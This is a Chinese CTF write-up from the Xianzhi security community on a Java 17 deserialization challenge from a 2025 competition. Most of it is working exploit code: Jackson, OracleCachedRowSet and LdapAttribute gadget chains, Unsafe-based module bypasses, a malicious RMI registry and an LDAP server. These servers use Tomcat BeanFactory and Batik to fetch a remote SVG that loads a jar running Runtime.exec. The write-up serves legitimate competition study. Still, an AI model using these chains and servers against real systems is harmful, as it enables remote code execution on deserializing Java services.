




# 2025软件系统安全赛初赛Java-先知社区

> **来源**: https://xz.aliyun.com/news/18892  
> **文章ID**: 18892

---

### 反序列化链挖掘

java版本为java17  
  
`DBController.java`

```
package com.example.jdbcparty.controller;

import com.example.jdbcparty.Utils;
import com.example.jdbcparty.model.User;
import java.sql.Connection;
import java.sql.DriverManager;
import org.springframework.beans.factory.annotation.Value;
import org.springframework.http.HttpStatus;
import org.springframework.http.HttpStatusCode;
import org.springframework.http.ResponseEntity;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.PostMapping;

@Controller
public class DBController {
    @Value("${spring.datasource.url}")
    private String url;

    @Value("${spring.datasource.driver}")
    private String driverClassName;

    @GetMapping({"/"})
    public String index() {
        return "index";
    }

    @PostMapping({"/dbtest"})
    public ResponseEntity<String> dbtest(String data) {
        try {
            User credentials = (User)Utils.deserialize(data);
            Class.forName(this.driverClassName);
            Connection connection = DriverManager.getConnection(this.url, credentials.getUsername(), credentials.getPassword());
            try {
                if (connection.isValid(5)) {
                    ResponseEntity<String> responseEntity1 = ResponseEntity.ok("connect success");
                    if (connection != null)
                        connection.close();
                    return responseEntity1;
                }
                ResponseEntity<String> responseEntity = ResponseEntity.status((HttpStatusCode)HttpStatus.INTERNAL_SERVER_ERROR).body("connect failed");
                if (connection != null)
                    connection.close();
                return responseEntity;
            } catch (Throwable throwable) {
                if (connection != null)
                    try {
                        connection.close();
                    } catch (Throwable throwable1) {
                        throwable.addSuppressed(throwable1);
                    }
                throw throwable;
            }
        } catch (Exception e) {
            e.printStackTrace();
            return ResponseEntity.status((HttpStatusCode)HttpStatus.INTERNAL_SERVER_ERROR).body("connect failed " + e.getMessage());
        }
    }
}

```

`User.java`

```
package com.example.jdbcparty.model;

import java.io.Serializable;

public class User implements Serializable {
    private String username;

    private String password;

    public User(String password, String username) {
        this.password = password;
        this.username = username;
    }

    public String getUsername() {
        return this.username;
    }

    public void setUsername(String username) {
        this.username = username;
    }

    public String getPassword() {
        return this.password;
    }

    public void setPassword(String password) {
        this.password = password;
    }

    public String getInfo() {
        return "User{username='" + this.username + "', password='" + this.password + "'}";
    }
}

```

`Utils.java`

```
package com.example.jdbcparty;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.util.Base64;

public class Utils {
    public static String serialize(Object obj) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(byteArrayOutputStream);
        oos.writeObject(obj);
        String payload = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
        System.out.println(payload);
        return payload;
    }

    public static Object deserialize(String payload) throws Exception {
        byte[] data = Base64.getDecoder().decode(payload);
        return (new ObjectInputStream(new ByteArrayInputStream(data))).readObject();
    }
}

```

可以看到,虽然进行了一个`getConnection`,但是其url是从配置文件中读取的,因此无法打JDBC反序列化.只能从上面的反序列化处做文章.  
可以看到环境中存在ojdbc依赖,可以考虑打一个Oracle JDBC反序列化.从`OracleCachedRowSet`,`OracleFilteredRowSet`,`OracleJoinRowSet`,`OracleWebRowSet`中任选一个即可.  
这里必须使用RMI,因为ojdbc这个链子中存在限制`OracleCachedRowSet.getConnectionInternal`中存在`validateJNDIName`检测,而其他两个类都是从这继承下来的.  
构造出了payload如下:

```
import com.fasterxml.jackson.databind.node.POJONode;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import javassist.LoaderClassPath;
import oracle.jdbc.rowset.OracleCachedRowSet;
import javax.sql.RowSetInternal;
import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import java.lang.reflect.Proxy;
import java.util.Vector;

public class OracleCachedRowSetChain {
    public static void main(String[] args) throws Exception {
        UnsafeUtil.patchModule(OracleCachedRowSetChain.class);
        UnsafeUtil.patchModule(ProxyUtil.class);
        UnsafeUtil.patchModule(SerializeUtil.class);
        UnsafeUtil.patchModule(UnsafeUtil.class);
        UnsafeUtil.patchModule(ReflectUtil.class);

        OracleCachedRowSet oracleCachedRowSet = new OracleCachedRowSet();

        oracleCachedRowSet.setDataSourceName("rmi://127.0.0.1:1097/remoteobj");

        ClassPool classPool = ClassPool.getDefault();
        classPool.appendClassPath(new LoaderClassPath(Thread.currentThread().getContextClassLoader()));
        CtClass ctClass = classPool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(writeReplace);
        ctClass.toClass();

        Proxy proxy = (Proxy) ProxyUtil.getBProxy(oracleCachedRowSet, new Class[]{RowSetInternal.class});

        POJONode pojoNode = new POJONode(proxy);

        EventListenerList exp = new EventListenerList();
        UndoManager manager = new UndoManager();
        Vector vector = (Vector) UnsafeUtil.getFieldValue(manager, "edits");
        vector.add(pojoNode);
        UnsafeUtil.setFieldValue(exp, "listenerList", new Object[] { InternalError.class, manager });

        byte[] bytes = SerializeUtil.serialize(exp);
        SerializeUtil.deserialize(bytes);

    }
}
```

这里比较容易出问题的就是在`getBProxy`的时候给`OracleCachedRowSet`和什么接口去套代理,我选择的方案是挨个去试,`OracleCachedRowSet`实现的哪个接口套上了不报错就套哪个.这里最终选择的是`RowSetInternal`接口.

同理,出口也可以去套XString,由于存在Xalan,因此XString一共有六种打法,这里就不去说了.  
注意如果是使用Jdk原生的XString就需要在编译和运行的时候添加一个`--add-exports java.xml/com.sun.org.apache.xpath.internal.objects=ALL-UNNAMED`参数,但是如果是使用Xalan的就不需要.

### Java17模块化问题

第一次自己研究java17下的模块化问题,记录一下.  
首先就是对自己使用的所有的自定义的类去进行`patchModule`,将偏移修改为`Object.class`的偏移,可以避免很多麻烦.

```
private static final Unsafe unsafe;

    static {
        try {
            Class<?> unsafeClass = Class.forName("sun.misc.Unsafe");
            Field theUnsafeField = unsafeClass.getDeclaredField("theUnsafe");
            theUnsafeField.setAccessible(true);
            unsafe = (Unsafe) theUnsafeField.get(null);
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
    
public static void patchModule(Class clazz) throws Exception {
        Module baseModule=Object.class.getModule();
        long addr=unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
        unsafe.getAndSetObject(clazz,addr,baseModule);
    }
```

接下来就是idea在编译和运行时的mv options参数设置.  
编译时参数设置在这:  
  
运行时参数设置在这:  
  
解释一下和模块化有关的参数:

##### `--add-exports`

当直接调用jdk17中的内部api去创建类或是使用静态方法的时候需要添加这个参数:`--add-exports $MODULE/$PACKAGE=ALL-UNNAMED`,从而将包中所有的类导出给所有的未命名模块(我们项目模块也没有命名).  
在编译时,如果出现这样的报错:

```
error: package sun.util is not visible
  (package sun.util is declared in module java.base, which does not export it)
```

或者说idea在代码检查的时候直接标红,也是编译时的问题,那么我们可以给编译器的参数添加:

```
--add-exports java.base/sun.util=ALL-UNNAMED
```

但如果只给编译时添加参数可能还是不能解决问题,有时还会出现报错:

```
java.lang.IllegalAccessError:
    class Internal (in unnamed module @0x758e9812)
    cannot access class sun.util.BuddhistCalendar (in module java.base)
    because module java.base does not export sun.util to unnamed module @0x758e9812
```

那么还需要给运行时添加参数:

```
--add-exports java.base/sun.util=ALL-UNNAMED
```

不过经过我的实际测试,patchModule过的类应该是都可以直接访问内部api,不需要再去添加`--add-exports`

##### `--add-opens`

上面给出的`--add-exports`并不能解决反射访问报错的问题,因为反射是一种运行时多态,并不会在编译时被检测到,因此即使在编译或运行时添加了`--add-exports`参数也会报错.需要在运行添加参数:`--add-opens $MODULE/$PACKAGE=ALL-UNNAMED`来绕过限制.例如在运行时提示:

```
Exception in thread "main" java.lang.IllegalAccessException:
    class Internal cannot access class sun.util.BuddhistCalendar (in module java.base)
    because module java.base does not export sun.util to unnamed module @1f021e6c
        at java.base/jdk.internal.reflect.Reflection.newIllegalAccessException(Reflection.java:392)
        at java.base/java.lang.reflect.AccessibleObject.checkAccess(AccessibleObject.java:674)
        at java.base/java.lang.reflect.Constructor.newInstanceWithCaller(Constructor.java:489)
        at java.base/java.lang.reflect.Constructor.newInstance(Constructor.java:480)
```

可以通过在运行时添加参数解决:

```
--add-opens java.base/sun.util=ALL-UNNAMED
```

`patchModule`对反射时的限制并没有任何的绕过作用,需要注意.

##### `--add-modules`

将一些可选的,非必要的模块添加到当前模块的模块图中,一般情况下不会用到这个参数,只在有相关报错提示的时候去考虑.如:

```
--add-modules java.sql
```

我们回到这个问题,这里只需要在运行时添加参数:

```
--add-opens java.base/java.lang=ALL-UNNAMED
```

### JNDI寻找

在Java17下和TemplatesImpl相关的利用链彻底失去了作用,因此JNDI的限制也变的更大了.我们在相关的依赖中看到了`tomcat-jdbc`,但是由于缺少相关的数据库依赖,因此没法将攻击面进一步扩大.存在`tomcat-embed-core-10.3.31`,但是`tomcat-el`的原生JNDI注入最高只支持`10.1.0-M14`.  
[找到了一篇文章,可以打](https://github.com/Y4Sec-Team/CVE-2023-21939/tree/main)`batik`[低版本和](https://github.com/Y4Sec-Team/CVE-2023-21939/tree/main)`tomcat-el`[组合拳.](https://github.com/Y4Sec-Team/CVE-2023-21939/tree/main)  
首先去制作一个恶意的jar包,去实现`initializeEventListeners`方法.

```
import java.io.IOException;
import org.w3c.dom.svg.SVGDocument;
import org.w3c.dom.svg.EventListenerInitializer;
public class Main implements EventListenerInitializer {

    @Override
    public void initializeEventListeners(SVGDocument svgDocument) {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    public static void main(String[] args) {
        System.out.println("Hello,J1rrY");
    }

}
```

然后再去添加一个`MANIFEST.MF`文件,位置如下:  
  
内容为:

```
Manifest-Version: 1.0
Main-Class: Main
SVG-Handler-Class: Main

```

将其打包为Jar,放到给出的项目中.修改项目的jdk版本为java17,设置编译参数:

```
--add-modules
jdk.naming.rmi
--add-exports
jdk.naming.rmi/com.sun.jndi.rmi.registry=ALL-UNNAMED
```

设置运行参数:

```
--add-exports
jdk.naming.rmi/com.sun.jndi.rmi.registry=ALL-UNNAMED
```

然后运行RMIServer:

```
public class RMIServer {
    public static void main(String[] args) throws Exception {

        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);

        ResourceRef ref = new ResourceRef("org.apache.batik.swing.JSVGCanvas", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        ref.add(new StringRefAddr("URI", "http://localhost:8886/1.xml"));

        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        registry.bind("remoteobj", referenceWrapper);
    }
}
```

运行XMLServer:

```
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.0"> <script type="application/java-archive" xlink:href="http://localhost:8887/exploit.jar"/> <text>Static text ...</text> </svg>
```

以及JarServer,并设置反序列化链的JNDI路径为`rmi://127.0.0.1:1097/remoteobj`,多尝试几次,成功执行命令.

我们对上面的payload为什么这样构造进行分析:  
在spring中,beanfactory这种工厂类通过调用属性对应的setter方法来进行自动的注入.因此我们知道可以调用setURI方法

```
ResourceRef ref = new ResourceRef("org.apache.batik.swing.JSVGCanvas", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        ref.add(new StringRefAddr("URI", "http://localhost:8886/1.xml"));
```

来看一下setURI方法:

```
public void setURI(String newURI) {
        String oldValue = this.uri;
        this.uri = newURI;
        if (this.uri != null) {
            this.loadSVGDocument(this.uri);
        } else {
            this.setSVGDocument((SVGDocument)null);
        }
        this.pcs.firePropertyChange("URI", oldValue, this.uri);
    }
```

可以看到调用了`loadSVGDocument`去进行解析.我们一路跟进,将断点打在`BaseScriptingEnvironment`的`loadScripts`方法:

```
public void loadScripts() {
        NodeList scripts = this.document.getElementsByTagNameNS("http://www.w3.org/2000/svg", "script");
        int len = scripts.getLength();

        for(int i = 0; i < len; ++i) {
            AbstractElement script = (AbstractElement)scripts.item(i);
            this.loadScript(script);
        }

    }
```

跟进到`lodaScript`方法,看到其中包含了下面这样的内容:

```
String type = script.getAttributeNS((String)null, "type");
            if (type.length() == 0) {
                type = "text/ecmascript";
            }

            String mediaType;
            if (type.equals("application/java-archive")) {
            try {  
        String href = XLinkSupport.getXLinkHref(script);  
        ParsedURL purl = new ParsedURL(script.getBaseURI(), href);  
        this.checkCompatibleScriptURL(type, purl);  
        URL docURL = null;  
  
        try {  
            docURL = new URL(this.docPURL.toString());  
        } catch (MalformedURLException var14) {  
        }  
  
        DocumentJarClassLoader cll = new DocumentJarClassLoader(new URL(purl.toString()), docURL);  
        URL url = cll.findResource("META-INF/MANIFEST.MF");  
        if (url == null) {  
            return;  
        }  
  
        Manifest man = new Manifest(url.openStream());  
        this.executedScripts.put(script, (Object)null);  
        mediaType = man.getMainAttributes().getValue("Script-Handler");  
        if (mediaType != null) {  
            ScriptHandler h = (ScriptHandler)cll.loadClass(mediaType).getDeclaredConstructor().newInstance();  
            h.run(this.document, this.getWindow());  
        }  
  
        mediaType = man.getMainAttributes().getValue("SVG-Handler-Class");  
        if (mediaType != null) {  
            EventListenerInitializer initializer = (EventListenerInitializer)cll.loadClass(mediaType).getDeclaredConstructor().newInstance();  
            this.getWindow();  
            initializer.initializeEventListeners((SVGDocument)this.document);  
        }  
    } catch (Exception var16) {  
        Exception e = var16;  
        if (this.userAgent != null) {  
            this.userAgent.displayError(e);  
        }  
    }  
  
}
```

这就解释了xml文件为什么这样构造.参考上面的内容,可以看出我们在构造jar包的时候可以有两种构造方式,一种是继承自`ScriptHandler`,并重写`run`方法,一种是继承自`EventListenerInitializer`,并重写`initializeEventListeners`方法.上面的示例显然是使用的第二种构造.

### 一些其他的问题

[看到了一个师傅的博客](https://gsbp0.github.io/post/jdk17%E6%89%93jackson+ldapattruibute%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/),说是可以打Jackson+LdapAttribute反序列化,但是项目中没有相关的ldapserver,这位师傅也没给出,需要自己写一个.利用链如下:

```
import com.fasterxml.jackson.databind.node.POJONode;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import javassist.LoaderClassPath;

import javax.naming.directory.Attribute;
import javax.naming.CompositeName;
import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import java.lang.reflect.Proxy;
import java.util.Vector;

public class LdapAttributeChain
{
    public static void main( String[] args ) throws Exception {
        UnsafeUtil.patchModule(LdapAttributeChain.class);
        UnsafeUtil.patchModule(ProxyUtil.class);
        UnsafeUtil.patchModule(ReflectUtil.class);
        UnsafeUtil.patchModule(SerializeUtil.class);
        UnsafeUtil.patchModule(UnsafeUtil.class);
        

        String ldapCtxUrl = "ldap://127.0.0.1:1389/";
        Class ldapAttributeClazz = Class.forName("com.sun.jndi.ldap.LdapAttribute");
        Object ldapAttribute = UnsafeUtil.newInstance(ldapAttributeClazz, new Class[]{String.class}, new Object[]{"name"});

        UnsafeUtil.setFieldValue(ldapAttribute,"baseCtxURL",ldapCtxUrl);
        UnsafeUtil.setFieldValue(ldapAttribute,"rdn",new CompositeName("Exploit/"));

        ClassPool classPool = ClassPool.getDefault();
        classPool.appendClassPath(new LoaderClassPath(Thread.currentThread().getContextClassLoader()));
        CtClass ctClass = classPool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(writeReplace);
        ctClass.toClass();

        Proxy proxy = (Proxy) ProxyUtil.getBProxy(ldapAttribute, new Class[]{Attribute.class});
        POJONode jsonNodes = new POJONode(proxy);


        EventListenerList exp = new EventListenerList();
        UndoManager manager = new UndoManager();
        Vector vector = (Vector) UnsafeUtil.getFieldValue(manager, "edits");
        vector.add(jsonNodes);
        UnsafeUtil.setFieldValue(exp, "listenerList", new Object[] { InternalError.class, manager });


        byte[] bytes = SerializeUtil.serialize(exp);
        SerializeUtil.deserialize(bytes);
    }
}
```

其中构建并运行时VM的options为

```
--add-opens java.base/java.lang=ALL-UNNAMED
```

Server如下:

```
package me.n1ar4;

import com.unboundid.ldap.listener.*;
import com.unboundid.ldap.listener.interceptor.*;
import com.unboundid.ldap.sdk.*;
import org.apache.naming.ResourceRef;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import javax.naming.StringRefAddr;
import java.net.InetAddress;
import java.util.TreeMap;

// 接口
interface LdapController {
    void sendResult(InMemoryInterceptedSearchResult result, String base) throws Exception;
}

// 主类
public class LdapServer extends InMemoryOperationInterceptor{

    TreeMap<String, LdapController> routes = new TreeMap<>();

    public static void main(String[] args) {
        try {
            int port = 1389;
            System.out.println("Starting LDAP server on 0.0.0.0:" + port);
            InMemoryDirectoryServerConfig serverConfig = new InMemoryDirectoryServerConfig("dc=example,dc=com");
            serverConfig.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", InetAddress.getByName("0.0.0.0"), port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            serverConfig.addInMemoryOperationInterceptor(new LdapServer());
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(serverConfig);
            ds.startListening();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public LdapServer() {
        routes.put("Exploit", new TomcatController());
    }

    public void processSearchResult(InMemoryInterceptedSearchResult result) {
        String base = result.getRequest().getBaseDN();
        for (String key : routes.keySet()) {
            if (key.equals(base) || (key.endsWith("*") && base.startsWith(key.substring(0, key.length() - 1)))) {
                try {
                    routes.get(key).sendResult(result, base);
                } catch (Exception e) {
                    e.printStackTrace();
                }
                break;
            }
        }
    }

    // 控制器实现
    class TomcatController implements LdapController {

        String payload = "Runtime.getRuntime().exec('calc')";

        @Override
        public void sendResult(InMemoryInterceptedSearchResult result, String base) throws Exception {
            System.out.println("Sending LDAP ResourceRef result for " + base);
            Entry e = new Entry(base);
            e.addAttribute("javaClassName", "java.lang.String");

//            ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "",
//                    true, "org.apache.naming.factory.BeanFactory", null);
//            ref.add(new StringRefAddr("forceString", "x=eval"));
//            ref.add(new StringRefAddr("x", payload));
            ResourceRef ref = new ResourceRef("org.apache.batik.swing.JSVGCanvas", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
            ref.add(new StringRefAddr("URI", "http://localhost:8886/1.xml"));
            e.addAttribute("javaSerializedData", SerializeUtil.serialize(ref));

            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }

        // 简化版的脚本序列化工具

        private String makeJavaScriptString(String input) {
            return input.replace("\", "\\").replace(""", "\"");
        }
    }
}

```

他还说yaml能打通,感觉版本确实,但是测试没有成功.

### Jackson新时代再看

这是当时的打法，然而在现在再来看这题其实不用那么麻烦了，直接Jackson链通杀了。  
参考我的这篇文章：<https://xz.aliyun.com/news/18701>

```
package org.example;


import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import javassist.LoaderClassPath;

import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import javax.xml.transform.Templates;
import java.lang.reflect.Proxy;
import java.util.Vector;

public class Main {
    public static void main(String[] args) throws Exception {
        ClassPool classPool = ClassPool.getDefault();
        classPool.appendClassPath(new LoaderClassPath(Thread.currentThread().getContextClassLoader()));
        CtClass ctClass = classPool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(writeReplace);
        ctClass.toClass();

        TemplatesImpl templates = TemplatesImplUtil.getTemplatesImpl();
        Proxy proxy = (Proxy) ProxyUtil.getBProxy(templates, new Class[]{Templates.class});
        POJONode pojoNode = new POJONode(proxy);
        EventListenerList exp = new EventListenerList();
        UndoManager manager = new UndoManager();
        Vector vector = (Vector) UnsafeUtil.getFieldValue(manager, "edits");
        vector.add(pojoNode);
        UnsafeUtil.setFieldValue(exp, "listenerList", new Object[] { InternalError.class, manager });

        byte[] bytes = SerializeUtil.serialize(exp);
        SerializeUtil.deserialize(bytes);
    }
}
```
